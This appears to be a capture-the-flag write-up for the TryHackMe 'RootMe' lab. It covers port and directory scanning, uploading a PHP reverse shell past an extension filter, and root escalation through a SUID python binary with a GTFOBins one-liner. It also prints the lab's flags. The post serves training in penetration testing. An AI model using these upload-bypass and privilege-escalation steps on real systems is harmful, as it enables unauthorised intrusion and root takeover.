 ```yaml
---
title: RootMe
date: 2022-04-24 17:00:00 +500
categories: [thm, easy-machines]
tags: [suid]     # TAG names should always be lowercase
---
```



## Reconnaissance

### Scan the machine, how many ports are open?

Let's start with a nmap scan
```bash
nmap 10.10.138.249
```
and then a detailed one to see the port service and version

```bash
nmap -sCV -p22,80 10.10.138.249
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> 2


### What version of Apache is running?

In the Nmap scan, we see that we already have the answer to this
> Apache/2.4.29

### What service is running on port 22?

> ssh


### Find directories on the web server using the GoBuster tool.

Let's do a Gobuster scan
the syntax is:
```
gobuster [mode] -u [target ip] -w [wordlist]
```

```bash
gobuster dir -u 10.10.138.249 -w /usr/share/dirb/wordlists/common.txt
```

```
/css                  (Status: 301) [Size: 312] [--> http://10.10.138.249/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.138.249/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.138.249/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.138.249/uploads/]
```

### What is the hidden directory?

We see two hidden directories, /panel and /uploads but the correct answer is

> /panel

which is a site to upload a file

## Getting a shell

So now that we have a file to upload a file, let's start trying to upload a php reverse shell that i suppose we can execute later going to the /uploads directory

I am going to use this:

https://github.com/pentestmonkey/php-reverse-shell

Remember to change the IP and PORT of your machine that you will use. And set up the listener with the port in your machine

```bash
nc -lvnp 1234
```

but we get a prompt that says php files are not allowed

Let's try to use another extension of php if this will bypass the extension filter

like these that I got from: https://book.hacktricks.xyz/pentesting-web/file-upload
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

and with the second extension, the file got uploaded!

now let's head over to the uploads directory and try to run it 

I wasn't running so I tried with a more popular extension: .php5 and it worked, now we have a shell, let's retrieve the user.txt flag

### user.txt

to find the flag, since I know what the name is I will search for it with the command find
```bash
find / -name user.txt 2>/dev/null
```
the way it works is 'find [directory to search] -name [name of the file] 2>/dev/null [this last part is to avoid printing errors]

we found it on /var/www/user.txt, lets use cat to read it

> THM{y0u_g0t_a_sh3ll}

## Privilege Escalation

### Search for files with SUID permission, which file is weird?

to find this kind of file we can use the following command:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
the one that stands out is this:

> /usr/bin/python

### Find a form to escalate your privileges.

let's head over to _gtfobin_ to search an exploit for this SUID FILE

we got this
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
remember to change ./python to the actual directory path that we found
```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

and with this, we got a root shell

### root.txt
I head over /root and there it is, the root.txt flag

> THM{pr1v1l3g3_3sc4l4t10n}
